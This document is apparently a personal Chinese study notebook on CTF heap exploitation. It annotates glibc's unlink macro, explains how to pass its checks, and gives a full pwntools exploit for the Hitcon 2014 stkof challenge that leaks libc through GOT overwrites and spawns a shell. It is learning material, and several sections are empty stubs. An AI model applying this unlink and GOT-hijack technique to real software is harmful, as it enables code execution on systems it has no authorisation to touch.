#0  _IO_vfprintf_internal (s=0x7ffff7dd2620 <_IO_2_1_stdout_>, format=0x4005c4 "Hello World", ap=ap@entry=0x7fffffffdd48) at vfprintf.c:1275
#1  0x00007ffff7a628a9 in __printf (format=<optimized out>) at printf.c:33
#2  0x0000000000400539 in main ()
#3  0x00007ffff7a2d840 in __libc_start_main (main=0x400526 <main>, argc=1, argv=0x7fffffffdf08, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffdef8) at ../csu/libc-start.c:291
#4  0x0000000000400459 in _start ()
pwndbg> 
```

显示了进入一个又一个缓冲区，每进去一个缓冲区，就得到一个返回地址。


# printf-格式化字符串

到底是从哪里开始的呢？


# Unlink

相关ref：

https://blog.csdn.net/Echoion/article/details/120576057

---


unlink使用的时机（具体流程还需要阅读一下源码）

```c
malloc
    从恰好大小合适的 large bin 中获取 chunk。
free（一般在这里用的比较多）
    后向合并，合并物理相邻低地址空闲 chunk。
    前向合并，合并物理相邻高地址空闲 chunk（除了 top chunk）
malloc_consolidate
    后向合并，合并物理相邻低地址空闲 chunk。
    前向合并，合并物理相邻高地址空闲 chunk（除了 top chunk）
realloc
    前向扩展，合并物理相邻高地址空闲 chunk（除了 top chunk）
```


---


所谓unlink，不过是malloc.c文件里的一个函数。

malloc.c的版本号未知，但基本就是这样，各个版本具有相似性。

## 函数源码

注释：

```c
#define unlink(AV, P, BK, FD)
//BK,FD是局部变量，来帮助完成unlink的操作
```


---


```c
#define unlink(AV, P, BK, FD) {                                            \
    //判断chunk p的大小，是否与下一个chunk 的prev_size相等
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");               \
    //让FD指向p的下一个chunk，BK指向p的上一个chunk
    FD = P->fd;                                   \
    BK = P->bk;                                   \
    //以上是，chunk的大小在small bin范围内的断链操作
    //以下是，large bin，的断链操作，首先判断FD的bk，与BK的fd是否同时指向p
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))             \
      malloc_printerr ("corrupted double-linked list");               \
    else {                                    \
        //首先进行初步断链，使FD的bk指向BK的fd，BK的fd指向FD，只是堆fd,bk的断链操作
        FD->bk = BK;                                  \
        BK->fd = FD;                                  \
        //以下使堆bk_nextsize,fd_nextsize的断链操作（large bin有两个双向链表，fd，bk用来
        //进行FIFO操作，bk_nextsize,fd_nextsize是根据堆块的大小进行排序的链表）
        //以下第一个if判断p的chunk是否在small范围内
        if (!in_smallbin_range (chunksize_nomask (P))                 \
            && __builtin_expect (P->fd_nextsize != NULL, 0)) {            \
            //判断chunk p的下一个chunk的上一个节点，以及上一个chunk的下一个节点是不是p
        if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)        \
        || __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    \
          malloc_printerr ("corrupted double-linked list (not small)");   \
          //以下是luoarge bin的断链操作，首先判断chunk p的下下一个chunk的fd_nextsize是否为空
            if (FD->fd_nextsize == NULL) {                    \
            //p的下下一个chunk的fd_nextsize为空
                if (P->fd_nextsize == P)                      \
                //判断是否只有一个chunk p,是则如下
                  FD->fd_nextsize = FD->bk_nextsize = FD;             \
                else {                                \
                //不是以下操作，四个指针，正常的双向链表的断链操作
                    FD->fd_nextsize = P->fd_nextsize;                 \
                    FD->bk_nextsize = P->bk_nextsize;                 \
                    P->fd_nextsize->bk_nextsize = FD;                 \
                    P->bk_nextsize->fd_nextsize = FD;                 \
                  }                               \
              } else {                                \
              //p的下下一个chunk的fd_nextsize不为空，直接断链
                P->fd_nextsize->bk_nextsize = P->bk_nextsize;             \
                P->bk_nextsize->fd_nextsize = P->fd_nextsize;             \
              }                                   \
          }                                   \
      }                                       \
}
```

当然，我们需要具体的研究这个函数，我在网上找到了某位大哥的注解。


## 绕过检查

绕过第一重检查：

```c
if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))
```

那就修改下一个chunk的prev_size大小。


第二重检查：

```c
if (__builtin_expect (FD->bk != P || BK->fd != P, 0)) 
```

也就是，当前chunk，p，

- 的下一个chunk的bk指针是否指向p。
- 的上一个chunk的fd指针是否指向p。

这个怎么绕过？

当然，你会问，绕过这个干嘛？

先绕过，看懂绕过操作，你就懂了。

满足的条件：

第一个：

```c
P->fd->bk == P <=> *(P->fd + 0x18) == P 
```

第二个：

```c
p->bk->fd == P <=> *(p->bk + 0x10) == P 
```

那么，为了满足这两个条件，我们需要这样做：

```c
P->fd = &P - 0x18 
P->bk = &P - 0x10
```


绕过检查后，程序会执行如下代码：

```c
        FD->bk = BK;                                  
        BK->fd = FD;   
```


这个操作会产生什么后果呢？我们应该将等式转化为跟我们的chunk——p有关的内容：

```c
FD->bk = BK <=> P->fd->bk = p->bk <=> *(P->fd + 0x18) = P->bk;

BK->fd = FD <=> P->bk->fd = p->fd <=> *(P->bk + 0x10) = P->fd;
```

再往下解释：

```
P->fd = &P - 0x18 ，则*(&P - 0x18+ 0x18) = P->bk;  <==>   P=&P-0x10
P->bk = &P - 0x10 ，则*(&P - 0x10+ 0x10) = P->fd;  <==>   P=&P-0x18
```

由于什么呢？执行的先后顺序，导致最后是：

```
P=&P-0x18
```

也就是说，我们绕过检查之后，P会指向&P-0x18的位置处。

---

如果我们的P指针被执行unlink函数，那么按照我们的操作，最后，会实现**P指向&P-0x18的位置处**。

也就是我们题目中，分配的某个chunk的地址被修改了。

接收到了基址：



# unlink exploit

## Hitcon 2014 stkof

真是不容易。

看了半天了，还是不理解具体的构成。

为什么要这么折磨我？

---

在free chunk的时候，向前合并，也就是高地址的chunk向前合并，在这个过程中，对前一个chunk，利用unlink，修改其指针为任意地址。

在这道题目中，我们可以修改chunk地址到bss区指针数组区，修改分配的chunk的指针为puts、system、atoi函数的plt地址，然后修改free的plt地址为puts的地址，这样就能输出puts的的地址，获取程序基址，然后修改atoi的plt为system的地址，输入("/bin/sh")，程序会执行：

ida里的反汇编代码：

```idl
  while ( fgets(nptr, 10, stdin) )
  {
    v3 = atoi(nptr);
```

就会直接执行system("/bin/sh")。


---

exp:

交互代码：

```python
# -*- coding: utf-8 -*-
import threading
import time
from pwn import *

c = process('./stkof')
elf = ELF('./stkof')
libc = ELF('./libc-2.23.so')

ptrArray = 0x602140

def addchunk(size):
    c.sendline('1')
    c.sendline(str(size))
    c.recvuntil('OK\n')

def edit(idx,cont):
    c.sendline('2')
    c.sendline(str(idx))
    c.sendline(str(len(cont)))
    c.send(cont)
    c.recvuntil('OK\n')

def free(idx):
    c.sendline('3')
    c.sendline(str(idx))
```

具体操作：

```plain
0x147a450	0x0000000000000000	0x0000000000000061	........a.......
0x147a460	0x0000000000000000	0x0000000000000000	................
0x147a470	0x0000000000000000	0x0000000000000000	................
0x147a480	0x0000000000000000	0x0000000000000000	................
0x147a490	0x0000000000000000	0x0000000000000000	................
0x147a4a0	0x0000000000000000	0x0000000000000000	................
0x147a4b0	0x0000000000000000	0x0000000000000061	........a.......
0x147a4c0	0x0000000000000000	0x0000000000000000	................
0x147a4d0	0x0000000000000000	0x0000000000000000	................
0x147a4e0	0x0000000000000000	0x0000000000000000	................
0x147a4f0	0x0000000000000000	0x0000000000000000	................
0x147a500	0x0000000000000000	0x0000000000000000	................
0x147a510	0x0000000000000000	0x0000000000020af1	................ <-- Top chunk
```

这是第二第三个chunk。

unlink的话，针对的是small chunk、large chunk，所以不能被放到fastbin里面。

这道题为什么不能使用fastbin attack？因为chunk被free之后，不会再被分配，chunk的下标不会减少，只会增加。为什么unlink需要在一个chunk里面伪造chunk？其实我个人觉得，也可以修改原来的chunk，不过后面我再试一试。暂且使用在chunk里面伪造chunk的办法，比较方便。


----


完整exp：

```python
# -*- coding: utf-8 -*-
import threading
import time
from pwn import *

c = process('./stkof')
elf = ELF('./stkof')
libc = ELF('./libc-2.23.so')


def addchunk(size):
    c.sendline('1')
    c.sendline(str(size))
    c.recvuntil('OK\n')

def edit(idx,cont):
    c.sendline('2')
    c.sendline(str(idx))
    c.sendline(str(len(cont)))
    c.send(cont)
    c.recvuntil('OK\n')

def free(idx):
    c.sendline('3')
    c.sendline(str(idx))
    

addchunk(0x100)#1
addchunk(0x30)#2
addchunk(0x80)#3
addchunk(0x20)#4

#我们想要将第二个chunk的地址，劫持到一个地方，通过修改这个地址，对，就是这个地址，是用户使用的地址，
#是直接写入的地址。
#这个地址应该在指针数组附近。


'''
pwndbg> x/80x 0x602100
0x602100:   0x00000003  0x00000000  0x00000000  0x00000000
0x602110:   0x00000000  0x00000000  0x00000000  0x00000000
0x602120:   0x00000000  0x00000000  0x00000000  0x00000000
0x602130:   0x00000000  0x00000000  0x00000000  0x00000000
0x602140:   0x00000000  0x00000000  0x01ec9020  0x00000000
0x602150:   0x01ec9460  0x00000000  0x01ec94c0  0x00000000
0x602160:   0x00000000  0x00000000  0x00000000  0x00000000
0x602170:   0x00000000  0x00000000  0x00000000  0x00000000
0x602180:   0x00000000  0x00000000  0x00000000  0x00000000
'''

'''
0x602100存储的是chunk的个数，0x602140，不对，是从0x602148开始，是chunk的地址。
程序malloc chunk是从下标1，开始的，但是0我们却仍旧可以访问到
所以我们可以劫持到一个地方，这个地方就是0x602140+0x18。

'''

#计算target

#为了绕过检查
#gdb.attach(c)
ptrArray = 0x602140
target=0x602140+16


cheat_code=p64(0x0)
cheat_code+=p64(0x31)

fd=target-0x18
cheat_code+=p64(fd)
bk=target-0x10
cheat_code+=p64(bk)

cheat_code+=p64(0x0)*2

#下一个chunk的pre_size
cheat_code+=p64(0x30)
#下一个chunk的size
cheat_code+=p64(0x90)

edit(2,cheat_code)


free(3)
#c.recvuntil('OK\n')
c.recvuntil('OK\n')

#获取plt
payload=b'a'*8                 #chunk -1
payload+=p64(elf.got['free'])   #chunk 0
payload+=p64(elf.got['puts']) #chunk 1
payload+=p64(elf.got['atoi'])   #chunk 2

#修改指针数组的0,1,2,3的chunk的指针
edit(2,payload)

'''
pwndbg> x/80x 0x602100
0x602100:   0x00000004  0x00000000  0x00000000  0x00000000
0x602110:   0x00000000  0x00000000  0x00000000  0x00000000
0x602120:   0x00000000  0x00000000  0x00000000  0x00000000
0x602130:   0x00000000  0x00000000  0x61616161  0x61616161
0x602140:   0x00602018  0x00000000  0x00602070  0x00000000
0x602150:   0x00602088  0x00000000  0x00000000  0x00000000
0x602160:   0x02386610  0x00000000  0x00000000  0x00000000
0x602170:   0x00000000  0x00000000  0x00000000  0x00000000
0x602180:   0x00000000  0x00000000  0x00000000  0x00000000

'''
#修改free为puts的plt
payload=p64(elf.plt['puts'])
edit(0,payload)

#获取基址
'''
free(1),而1是0x00602018，是
pwndbg> x/10x 0x00602018
0x602018 <free@got.plt>:    0xfb548540  0x00007f61  0xfb5336a0  0x00007f61
0x602028 <fread@got.plt>:   0xfb5321b0  0x00007f61  0x00400786  0x00000000

0x00602018作为指针，被指向的是free@got.plt，然后修改为puts的plt
那么，我们puts，输出的就是puts的地址
这里有一点绕，理解一下
'''
free(1)

#gdb.attach(c)

puts_addr = c.recvuntil(b'\nOK\n',drop = True).ljust(8,b'\x00')
puts_addr = u64(puts_addr)
libcbase = puts_addr - libc.symbols['puts']
system_addr = libcbase + libc.symbols['system']

log.success('puts_addr = ' + hex(puts_addr))
log.success('libcbase = ' + hex(libcbase))
log.success('system = ' + hex(system_addr))

#修改atoi为system
payload=p64(system_addr)
edit(2,payload)

c.sendline(b"/bin/sh")
c.interactive()
```


---


## zctf 2016 note2


# tcache_entry

2.27

tcache_entry:

```c
typedef struct tcache_entry
{
 struct tcache_entry *next;
} tcache_entry;
```

tcache_perthread_struct:

```c
typedef struct tcache_perthread_struct{
    char counts[TCACHE_MAX_BINS];
    tcache_entry *entries[TCACHE_MAX_BINS];
}tcache_perthread_struct;
# define TCACHE_MAX_BINS                64
```

2.33又变了：


# patchelf和pwninit

- ldd

> 用于打印程序或者库文件所依赖的共享库列表。

对于一个程序，使用ldd来查询使用的依赖。

比如：

```sh
$ ldd 0ctfbabyheap 
	linux-vdso.so.1 (0x00007ffd2969b000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f0edbee9000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f0edc2f3000)
	
$ file /lib/x86_64-linux-gnu/libc.so.6
/lib/x86_64-linux-gnu/libc.so.6: symbolic link to libc-2.31.so

$ file /lib64/ld-linux-x86-64.so.2
/lib64/ld-linux-x86-64.so.2: symbolic link to /lib/x86_64-linux-gnu/ld-2.31.so
$ file /lib/x86_64-linux-gnu/ld-2.31.so
/lib/x86_64-linux-gnu/ld-2.31.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=4587364908de169dec62ffa538170118c1c3a078, stripped
```

两个软连接：一个对应ld文件，一个对应libc文件。

无论中间有几个软连接，最后都执行一个目录：

```sh
bigliar@bigliar:/lib/x86_64-linux-gnu$ ls
ld-2.31.so  
libc-2.31.so
```

所以，对于我们的文件，都是使用的这两个来执行程序——标准C库和链接器。

---


对于出现pwndbg无法发现调试信息的情况，我发现了这两个工具。

一个是用来修改elf文件的依赖：ld和lib。

另一个是来快速部署一个pwn题目。当然，它会帮你修改lib，使得它含有调试信息。

还有一个说法是gef，gef在没有调试信息的情况下，也能狗执行heap相关指令。


